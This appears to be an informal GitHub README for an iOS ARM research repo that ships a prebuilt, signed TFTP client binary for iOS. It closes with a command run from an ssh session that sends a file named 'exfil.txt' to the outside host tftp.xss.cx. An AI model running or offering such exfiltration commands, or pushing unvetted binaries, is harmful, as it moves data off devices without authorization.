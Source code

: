 # ios-arm-research
iOS, ARM, Research

Updated Jan 25 2021

You read and you are here.. 

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID.

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work.. like a thingy...

Comment: the compiled file may be really helpful since you read the Post and now you probably want to ghost along to the same point..

none of that stuff was working and I just copy pasta the tftp client so could get that gzfile and see wtf is happening..

The files in this Repo.. starting point for why you came.. refer back to that Post for the Makefile mods ... the Makefile here is for Intel Platform.. so you need to read that Post on cross compilation for client .... OR just copy the client binary..its iOS ready to run. 


Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye




